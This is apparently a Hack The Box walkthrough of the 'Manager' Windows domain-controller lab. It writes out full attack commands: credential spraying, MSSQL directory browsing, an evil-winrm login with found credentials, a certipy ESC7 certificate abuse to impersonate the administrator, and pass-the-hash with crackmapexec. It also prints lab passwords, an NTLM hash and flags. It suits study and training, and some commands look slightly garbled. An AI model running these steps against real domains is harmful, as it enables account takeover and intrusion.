 # Manager

This is my Walkthrough on [Manager](https://app.hackthebox.com/machines/Manager) - The Hack The Box Seasonal Machine

## Initial Scan

```nmap
sudo nmap -T4 -Pn -sV -sC -v 10.129.74.218 -oA Manager
```

\*\*Had to shutdown to IP changed to `10.129.74.218` for some later things

<figure><img src="../../.gitbook/assets/image (514).png" alt=""><figcaption></figcaption></figure>

```nmap
PORT     STATE SERVICE       VERSION
53/tcp   open  domain        Simple DNS Plus
80/tcp   open  http          Microsoft IIS httpd 10.0
|_http-title: Manager
| http-methods: 
|   Supported Methods: OPTIONS TRACE GET HEAD POST
|_  Potentially risky methods: TRACE
|_http-server-header: Microsoft-IIS/10.0
88/tcp   open  kerberos-sec  Microsoft Windows Kerberos (server time: 2023-10-24 03:15:32Z)
135/tcp  open  msrpc         Microsoft Windows RPC
139/tcp  open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-24T03:16:52+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d:67bc:2117:e4d5:43e9:76bd:1212:b562
|_SHA-1: 6779:9506:0167:b030:ce92:6a31:f81c:0800:1c0e:29fb
445/tcp  open  microsoft-ds?
464/tcp  open  kpasswd5?
593/tcp  open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2023-10-24T03:16:52+00:00; +7h00m00s from scanner time.
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d:67bc:2117:e4d5:43e9:76bd:1212:b562
|_SHA-1: 6779:9506:0167:b030:ce92:6a31:f81c:0800:1c0e:29fb
1433/tcp open  ms-sql-s      Microsoft SQL Server 2019 15.00.2000.00; RTM
| ssl-cert: Subject: commonName=SSL_Self_Signed_Fallback
| Issuer: commonName=SSL_Self_Signed_Fallback
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-10-24T03:13:49
| Not valid after:  2053-10-24T03:13:49
| MD5:   9e80:5b78:fbe6:b024:994f:f4b5:620b:15b2
|_SHA-1: dcd7:2c60:befc:7812:2a99:38fa:1637:2748:43a0:0698
| ms-sql-ntlm-info: 
|   10.129.74.218:1433: 
|     Target_Name: MANAGER
|     NetBIOS_Domain_Name: MANAGER
|     NetBIOS_Computer_Name: DC01
|     DNS_Domain_Name: manager.htb
|     DNS_Computer_Name: dc01.manager.htb
|     DNS_Tree_Name: manager.htb
|_    Product_Version: 10.0.17763
| ms-sql-info: 
|   10.129.74.218:1433: 
|     Version: 
|       name: Microsoft SQL Server 2019 RTM
|       number: 15.00.2000.00
|       Product: Microsoft SQL Server 2019
|       Service pack level: RTM
|       Post-SP patches applied: false
|_    TCP port: 1433
|_ssl-date: 2023-10-24T03:16:52+00:00; +7h00m00s from scanner time.
3268/tcp open  ldap          Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d:67bc:2117:e4d5:43e9:76bd:1212:b562
|_SHA-1: 6779:9506:0167:b030:ce92:6a31:f81c:0800:1c0e:29fb
|_ssl-date: 2023-10-24T03:16:52+00:00; +7h00m00s from scanner time.
3269/tcp open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: manager.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=dc01.manager.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1::<unsupported>, DNS:dc01.manager.htb
| Issuer: commonName=manager-DC01-CA
| Public Key type: rsa
| Public Key bits: 2048
| Signature Algorithm: sha256WithRSAEncryption
| Not valid before: 2023-07-30T13:51:28
| Not valid after:  2024-07-29T13:51:28
| MD5:   8f4d:67bc:2117:e4d5:43e9:76bd:1212:b562
|_SHA-1: 6779:9506:0167:b030:ce92:6a31:f81c:0800:1c0e:29fb
|_ssl-date: 2023-10-24T03:16:52+00:00; +7h00m00s from scanner time.
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Findings

### HTTP

Not a lot to the website, no logon forms or any hidden directories

<figure><img src="../../.gitbook/assets/image (515).png" alt=""><figcaption></figcaption></figure>

#### Dirbuster/Gobuster

<figure><img src="../../.gitbook/assets/image (516).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (517).png" alt=""><figcaption></figcaption></figure>

#### SMB

<figure><img src="../../.gitbook/assets/image (518).png" alt=""><figcaption></figcaption></figure>

Directories are empty, C$ and ADMIN$ we don't have access by default.

BUT we were able to find the users with CrackMapExec and trying various passwords(username as pass but upper and lower), we find a valid user/password combination: `Operator:operator`

&#x20;&#x20;

<figure><img src="../../.gitbook/assets/image (519).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (520).png" alt=""><figcaption></figcaption></figure>

### RPC

```bash
rpcclient -U "" 10.129.74.218
```

Not much found here but we did find the SID of the Administrator account

```
rpcclient $> lookupnames Administrator
Administrator S-1-5-21-4078382237-1492182817-2568127209-500 (User: 1
```

### SQL

#### Impacket-mssqlclient

Were able to log in with `Operator:operator`&#x20;

<figure><img src="../../.gitbook/assets/image (521).png" alt=""><figcaption></figcaption></figure>

Using xp\_dirtree to look around in various directories we eventually found:&#x20;

<figure><img src="../../.gitbook/assets/image (522).png" alt=""><figcaption></figcaption></figure>

Grabbed the .zip file

```
http://10.129.75.78/website-backup-27-07-23-old.zip
```

<figure><img src="../../.gitbook/assets/image (523).png" alt=""><figcaption></figcaption></figure>

#### .old-conf.xml

<figure><img src="../../.gitbook/assets/image (524).png" alt=""><figcaption></figcaption></figure>

More user creds! We found `Raven@manager.htb:R4v3nBe5tD3veloP3r!123`

### winrm

```bash
evil-winrm -i 10.129.75.78 -u Raven -p 'R4v3nBe5tD3veloP3r!123'
```

<figure><img src="../../.gitbook/assets/image (525).png" alt=""><figcaption></figcaption></figure>

User flag was found under user.txt on Ravens desktop: `5ba4881af698a98cbf340a8861580333`

## Priv Esc

Looked around at what permissions Raven had

<figure><img src="../../.gitbook/assets/image (526).png" alt=""><figcaption></figcaption></figure>

### WinPEAS

<figure><img src="../../.gitbook/assets/image (527).png" alt=""><figcaption></figcaption></figure>

<figure><img src="../../.gitbook/assets/image (528).png" alt=""><figcaption></figcaption></figure>

Nothing of super note was found with WinPeas unfortunately

### certipy

We checked with Certipy due it being Active Directory and on a DC. So we want to enumerate certificates.

<figure><img src="../../.gitbook/assets/image (529).png" alt=""><figcaption></figcaption></figure>

```bash
certipy-ad find -vulnerable -u raven@dc01.manager.htb -p 'R4v3nBe5tD3veloP3r!123' -dc-ip 10.129.139.52 -stdout
```

We see ESC7 is vulnerable - [On the certipy github on ESC7](https://github.com/ly4k/Certipy#esc7). Upgrade Ravens account to have additional permissions. These had to be done in qucik succession as the machine does reset itself every few minutes.

```bash
certipy-ad ca -ca 'manager-DC01-CA' -add-officer raven -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```

<figure><img src="../../.gitbook/assets/image (530).png" alt=""><figcaption></figcaption></figure>

<pre class="language-bash"><code class="lang-bash"><strong>certipy-ad ca -ca 'manager-DC01-CA' -enable-template SubCA -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
</strong></code></pre>

```bash
certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -template SubCA -upn administrator@manager.htb
```

<figure><img src="../../.gitbook/assets/image (532).png" alt=""><figcaption></figcaption></figure>

```bash
certipy-ad ca -ca 'manager-DC01-CA' -issue-request 17 -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123'
```

<figure><img src="../../.gitbook/assets/image (534).png" alt=""><figcaption></figcaption></figure>

```bash
certipy-ad req -username raven@manager.htb -password 'R4v3nBe5tD3veloP3r!123' -ca manager-DC01-CA -target dc01.manager.htb -retrieve 17
```

<figure><img src="../../.gitbook/assets/image (535).png" alt=""><figcaption></figcaption></figure>

We now have our administrator.pfx and we can use this.

```bash
certipy-ad auth -pfx administrator.pfx -username 'administrator' -domain 'manager.htb' -dc-ip 10.129.139.52
```

<figure><img src="../../.gitbook/assets/image (536).png" alt=""><figcaption></figcaption></figure>

We need to sync our clock with the DC. We we can use rdate(need to install it) to get the time of the DC Server

```bash
sudo apt install -y rdate
sudo rdate -n dc01.manager.htb
```

<figure><img src="../../.gitbook/assets/image (537).png" alt=""><figcaption></figcaption></figure>

Then use faketime to sync the clock

```bash
sudo apt install -y rdate
sudo faketime -f '(date/time of dc)'/bin/date
```

<figure><img src="../../.gitbook/assets/image (538).png" alt=""><figcaption></figcaption></figure>

Re-run our certipy command and get the hash of the administrator!&#x20;

<figure><img src="../../.gitbook/assets/image (539).png" alt=""><figcaption></figcaption></figure>

Administrator NTLM hash: `aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef`

Rather than try to crack it, we can use CrackMapExec to pass the hash and execute commands

```bash
crackmapexec smb 10.129.139.52 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef -x 'dir C:\Users\Administrator\Desktop'
```

```bash
crackmapexec smb 10.129.139.52 -u Administrator -H aad3b435b51404eeaad3b435b51404ee:ae5064c2f62317332c88629e025924ef -x 'type C:\Users\Administrator\Desktop\root.txt'
```

<figure><img src="../../.gitbook/assets/image (541).png" alt=""><figcaption></figcaption></figure>

Root.txt: `35891a19f5ad0f5c2fced375b3c7142e`
